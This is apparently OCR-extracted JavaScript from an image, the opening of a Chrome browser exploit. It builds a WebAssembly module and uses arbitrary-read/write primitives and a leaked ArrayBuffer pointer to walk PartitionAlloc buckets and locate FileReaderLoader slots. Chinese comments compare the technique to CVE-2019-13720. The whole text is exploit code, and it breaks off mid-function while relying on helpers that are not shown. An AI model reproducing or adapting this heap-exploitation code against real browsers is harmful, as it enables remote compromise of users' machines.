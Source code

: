 ```javascript
async function exploit(read64, writeN, leaked_arrbuf_ptr) {
	var wasmCode = new Uint8Array([
	0,   97,  115, 109, 1,   0,   0,   0,   1,   133, 128, 128, 128, 0,
	1,   96,  0,   1,   127, 3,   130, 128, 128, 128, 0,   1,   0,   4,
	132, 128, 128, 128, 0,   1,   112, 0,   0,   5,   131, 128, 128, 128,
	0,   1,   0,   1,   6,   129, 128, 128, 128, 0,   0,   7,   145, 128,
	128, 128, 0,   2,   6,   109, 101, 109, 111, 114, 121, 2,   0,   4,
	109, 97,  105, 110, 0,   0,   10,  138, 128, 128, 128, 0,   1,   132,
	128, 128, 128, 0,   0,   65,  42,  11
	]);
	
	const wasmBlob = new Blob([ wasmCode ], {type : "application/wasm"});
	
	let module = WebAssembly.compile(wasmCode)
	// let inst = WebAssembly.instantiate(module)
	
	const wasmUrl = URL.createObjectURL(wasmBlob);
	
	let result = await WebAssembly.instantiateStreaming(fetch(wasmUrl), {})
	let wasmFuncA = result.instance.exports.main;
	
	function getArrBufBucket(read64, slot) {
		let meta = getPartitionPageMetadataArea(leaked_arrbuf_ptr);
			const offsetBucket = BigInt(0x10);
			let bucket_0x10 = read64(meta + offsetBucket);
			return bucket_0x10;
	}
	
	function getFastMallocBucket(ArrBufBucket) {
		const bucket_delta = BigInt(0xb40);
		return ArrBufBucket - bucket_delta;
	}
	
	fastMallocBucket = getFastMallocBucket(
		getArrBufBucket(read64, leaked_arrbuf_ptr));
	
	reader_arr = [];
	
	let fileReaderLoaderSize = 0x140;
	
	let bucket_0x140 = getFastMallocBucketBySlotSize(read64, fastMallocBucket,
		fileReaderLoaderSize);
	
	const offsetActivePage = BigInt(0);
	
	let getActivePage = (bucket) => read64(bucket + offsetActivePage);
	let getFreeListHead = (bucket) => read64(getActivePage(bucket));
	

	// 因为 PartitionAlloc 又增加了一个 ThreadCache 缓存
	// 所以这部分读取 FileReaderLoader 地址的代码，和 CVE-2019-13720 相比有一些区别
	
	let cur = BigInt(0);
	
	function ConsumeSlot() {
		reader_arr.push(new FileReader);
		reader_arr[reader_arr.length - 1].readAsArrayBuffer(new Blob([]));
		cur = getFreeListHead(bucket_0x140);
	}
	
	// 从 FastMallocPartition 读取 0x140 空闲内存链表头 
	// 循环是为了确保读到非 0 的链表头，实际作用未验证，也可以去掉
	let next_slot = BigInt(0);
```